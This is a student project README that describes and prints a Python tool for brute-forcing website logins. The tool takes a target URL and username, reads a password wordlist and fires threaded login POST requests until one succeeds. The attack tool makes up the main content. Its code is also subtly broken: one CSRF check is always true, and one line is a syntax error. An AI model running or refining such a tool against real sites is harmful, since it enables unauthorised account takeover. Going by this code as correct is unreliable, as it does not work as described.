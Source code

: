 <p align="center">

# TASK 2 : CREATE A BASIC TOOL FOR THE BRUTE FORCING USERNAMES AND PASSWORDS IN PYTHON  <hr>
# SUBMITTED BY SUPRAJA S

</p>
<p align="center">
<img src="brute-force-attack.webp">
</p>

# BRUTE FORCE PROCESS 
<p>
 Brute forcing is relying on or achieved through the application of force, effort, or power in usually large amounts instead of more efficient, carefully planned, or precisely directed methods.
</p>

# FEATURES OF BRUTE FORCING 

User Input: The script takes input from the user for the target URL, target username, and the error message displayed when an incorrect password is entered.

BruteForce Cracker Class: It encapsulates the functionality related to the brute-force attack. The crack method attempts to log in with a given password and checks the response for an error message.

crack_passwords Function: It iterates through a list of passwords, attempting to crack the password using the BruteForceCracker instance. Multithreading is used to speed up the process.

Main Function: It initializes the brute-force cracker, reads passwords from a file ("passwords.txt"), and starts multiple threads to perform the password cracking concurrently.

Banner: The script displays a "CHECKING SERVER!!!" banner when executed.

Threading: The script uses the threading module to perform password cracking concurrently, improving efficiency.

Error Handling: The script checks for CSRF tokens in the response and exits if detected, preventing the brute force attack if the target website employs CSRF protection.

Printing: Various print statements are used for displaying information about th e cracking process, including the target URL, username, password attempts, and successful password discovery

# ADVANTAGES OF BRUTE FORCING 

The following are the advantages of the brute-force algorithm:

-This algorithm finds all the possible solutions, and it also guarantees that it finds the correct solution to a problem.

-This type of algorithm is applicable to a wide range of domains.

-It is mainly used for solving simpler and small problems.

-It can be considered a comparison benchmark to solve a simple problem and does not require any particular domain knowledge.

# DISADVANTAGES OF BRUTE FORCING

The following are the disadvantages of the brute-force algorithm:

-It is an inefficient algorithm as it requires solving each and every state.

-It is a very slow algorithm to find the correct solution as it solves each state without considering whether the solution is feasible or 
  not.
  
-The brute force algorithm is neither constructive nor creative as compared to other algorithms.

<p align="center">
<img src="image1-499.png">
</p>

# PYTHON CODE :
```print (""" BRUTE FORCE""")
import threading
import requests
import time
import sys

class BruteForceCracker:
    def __init__(self, url, username, error_message):
        self.url = url
        self.username = username
        self.error_message = error_message
        
        for run in banner:
            sys.stdout.write(run)
            sys.stdout.flush()
            time.sleep(0.02)

    def crack(self, password):
        data_dict = {"LogInID": self.username, "Password": password, "Log In": "submit"}
        response = requests.post(self.url, data=data_dict)
        if self.error_message in str(response.content):
            return False
        elif "CSRF" or "csrf" in str(response.content):
            print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
            sys.exit()
        else:
            print("Username: ---> " + self.username)
            print("Password: ---> " + password)
            return True

def crack_passwords(passwords, cracker):
    count = 0
    for password in passwords:
        count += 1
        password = password.strip()
        print("Trying Password: {} Time For => {}".format(count, password))
        if cracker.crack(password):
            return

def main():
    url = input("Enter Target Url: ")
    username = input("Enter Target Username: ")
    error = input("Enter Wrong Password Error Message: ")
    cracker = BruteForceCracker(url, username, error)
    
    with open("passwords.txt", "r") as f:
        chunk_size = 1000
        while True:
            passwords = f.readlines(chunk_size)
            if not passwords:
                break
            t = threading.Thread(target=crack_passwords, args=(passwords, cracker))
            t.start()

if __name__ == '__main__':
    banner = """CHECKING SERVER!!!"""  print(banner)
    main()
```
# PREVIEW SCREENSHOT 
<p>
 <img src="screenshot 2.png">
 </p>





























